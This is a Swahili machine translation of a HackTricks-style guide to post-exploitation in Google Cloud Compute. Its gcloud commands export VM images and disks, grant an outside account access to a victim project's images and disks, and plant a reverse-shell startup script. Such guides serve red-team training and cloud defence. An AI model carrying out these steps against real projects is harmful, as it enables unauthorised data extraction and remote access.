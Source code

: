 # GCP - Compute Post Exploitation

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikionekana kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) za kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Compute

Kwa habari zaidi kuhusu Compute na VPC (Uunganishaji) angalia:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Hifadhi & Angalia Picha kwa Kitaalamu

Hii ingewezesha muhusika kufikia **data iliyomo ndani ya picha zilizopo tayari** au **kuunda picha mpya za VM zinazoendesha** na kufikia data yao bila kuwa na ufikiaji wa VM inayoendesha.

Inawezekana kuhifadhi picha ya VM kwenye ndoo na kisha kuipakua na kuimounti kwa kitaalamu kwa kutumia amri:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Kabla ya kutekeleza hatua hii, mkaidi anaweza kuhitaji mamlaka juu ya chombo cha kuhifadhi na kwa hakika **mamlaka juu ya cloudbuild** kwani ni **huduma** ambayo itaulizwa kutekeleza kuuza nje. Aidha, ili hii ifanye kazi, chombo cha kujenga kodi na chombo cha kuhesabu kinahitaji ruhusa za kipekee. Chombo cha kujenga `<project-id>@cloudbuild.gserviceaccount.com` kinahitaji:

* majukumu/iam.serviceAccountTokenCreator
* majukumu/compute.admin
* majukumu/iam.serviceAccountUser

Na chombo cha `<project-id>-compute@developer.gserviceaccount.com` kinahitaji:

* majukumu/compute.storageAdmin
* majukumu/storage.objectAdmin

### Kuuza Nje & Kuchunguza Picha na Diski Mahali Pande za Kiasili

Si rahisi kuuza nje moja kwa moja picha na diski, lakini ni rahisi kubadilisha picha kuwa diski, diski kuwa picha na kufuata **sehemu iliyopita**, kuuza nje picha hiyo ili kuichunguza kwa upande wa kiasili

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Kuchunguza Picha na Kuunda VM

Kwa lengo la kupata **data iliyohifadhiwa kwenye picha** au ndani ya **VM inayotumika** ambapo mshambuliaji **ameunda picha,** inawezekana kutoa ufikiaji wa akaunti ya nje juu ya picha:

```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```

na kisha tengeneza VM mpya kutoka kwake:

```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```

Ikiwa haukuweza kutoa ufikiaji wa akaunti yako ya nje juu ya picha, unaweza kuzindua VM ukitumia picha hiyo katika mradi wa waathiriwa na **kufanya metadata kutekeleza reverse shell** ili kupata ufikiaji wa picha kwa kuongeza param:

```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```

### Angalia Snapshot/Disk ikibebwa kwa VM

Kwa lengo la kupata **data iliyohifadhiwa kwenye diski au snapshot, unaweza kubadilisha snapshot kuwa diski, diski kuwa picha na kufuata hatua zilizopita.**

Au unaweza **kutoa akaunti ya nje upatikanaji** juu ya diski (ikiwa hatua ya kuanzia ni snapshot toa upatikanaji kwenye snapshot au unda diski kutoka kwake):

```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```

**Ambatisha diski** kwa kifaa:

```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```

Funga diski ndani ya VM:

1. **Ingia kwa SSH kwenye VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```

2. **Tambua Diski**: Mara baada ya kuingia kwenye VM, tambua diski mpya kwa kuorodhesha vifaa vya diski. Kwa kawaida, unaweza kuipata kama `/dev/sdb`, `/dev/sdc`, n.k.
3. **Fomati na Funga Diski** (ikiwa ni diski mpya au isiyo na fomati):

* Unda sehemu ya kufunga:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```

* Funga diski:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Ikiwa **hauwezi kutoa upatikanaji kwa mradi wa nje** kwa nakala rudufu au diski, unaweza kuhitaji k**utekeleza hatua hizi ndani ya kifaa kwenye mradi huo huo kama nakala rudufu/disiki**.
